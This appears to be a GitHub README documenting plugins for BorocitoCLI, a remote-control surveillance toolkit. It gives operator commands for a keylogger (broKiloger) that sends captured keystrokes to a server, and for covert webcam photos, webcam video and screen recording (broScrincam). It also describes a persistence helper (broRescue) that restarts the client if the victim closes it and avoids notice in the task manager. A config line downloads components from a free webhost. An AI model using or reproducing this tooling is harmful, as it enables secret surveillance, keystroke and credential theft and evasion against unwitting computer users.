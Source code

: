 # borocito-components
Complementos para Borocito CLI

## Complements
These plugins were created to enrich the experience with BorocitoCLI.

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.

### Using it
All plugins here, except for the 'boro-get' package manager, were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.

#### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini
```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```
Now that boro-get is installed. We can start installing and using the packages.

We can install a package with the command `boro-get <package> <start?> <parameters>`
An example with broKiloger:
`boro-get broKiloger True /startrecording`
If the package does not require an argument:
`boro-get broKiloger`
(<start?> will be marked as True, the package will start)

If you don't want to start it (just download and install it)
`boro-get broKiloger False null`

>NOTE: 'null' is a reserved word, it will be very useful!

Now we are going to define a concept.
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?
Also, they can receive parameters when they are already started, so you can control them.

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.


### broEstoraje
This plugin is not coded yet.
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).

### broKiloger
broKiloger is a plugin dedicated to logging keys.

> NOTE: Single Instance Package

Your options are:
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh
/stoprecording: It will stop the key recording and broKiloger will close.
boro-get broKiloger True /stoprecording
```
> NOTE: It will not save or send the record.

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```
> NOTE: It will not save or send the record.

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.
For this reason, broRescue is a good recommendation that it be installed.
**And what does it do?**
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:
`broRescue Borocito`
and not only that, you can also start the extractor, or the updater.
To do this, the commands will be:
`broRescue Extractor`
`broRescue Updater`
Or even restart the computer with the command:
`broRescue Restart`
This packet reads directly from the server. Every 20 minutes. So yes, you will notice the effect in 20 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.

### broScrincam
This plugin is for:
- Take photos from a Webcam
- Record video from a Webcam
- Record screen

> NOTE: Single Instance Package

```sh
/startscreenrecording: (will try) record the screen.
boro-get broScrincam True /startscreenrecording
```

```sh
/stopscreenrecording: It is supposed to stop screen recording. That part is not scheduled yet.
boro-get broScrincam True /stopscreenrecording
```
> NOTE: It will not save or send the record. Not coded yet.

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```
> NOTE: It will be sent automatically.

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```
> NOTE: It will not save or send the record.

```sh
/sendscreenrecord: It is supposed to stop, save and send the screen recording. This part is not coded yet.
boro-get broScrincam True /sendscreenrecord
```
> NOTE: Not coded yet.

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

## Uninstalling a package
To uninstall, remove a package, the following points must be taken into account.
- The plugin MUST BE CLOSED. There should not be an instance of this. Read the documentation to know how to close it.
- All data from this plugin, recordings, files, etc. will be deleted.
- If they can be reinstalled, don't worry about it.

To uninstall, use the `boro-get <package> uninstall` command.
An example with broKiloger would be:
`boro-get broKiloger uninstall`
'uninstall' in lowercase.

The plugins created are not perfect. I recommend you take a look at the code to know what it does and how it does it, so you avoid unpredictable behavior or bad practices.
